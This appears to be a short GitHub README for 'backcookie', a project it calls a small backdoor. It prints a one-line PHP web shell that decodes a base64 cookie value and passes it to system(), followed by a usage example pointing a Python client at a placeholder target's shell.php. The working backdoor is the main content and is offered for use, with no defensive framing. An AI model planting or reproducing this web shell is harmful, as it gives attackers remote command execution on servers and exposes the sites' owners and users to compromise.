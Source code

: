 backcookie
==========

[![Total views](https://sourcegraph.com/api/repos/github.com/mrjopino/Backcookie/counters/views.png)](https://sourcegraph.com/github.com/mrjopino/Backcookie)

Small backdoor using cookie.

==========

```php
<?php error_reporting(0); system(base64_decode($_COOKIE["yourcookie"])); ?>
```

```
Example: python backcookie.py -u http://target.com/shell.php -c name_cookie
```

## Developer

-------------

Copyright, 2013 by [José Pino](http://twitter.com/mrjopino)

-------------

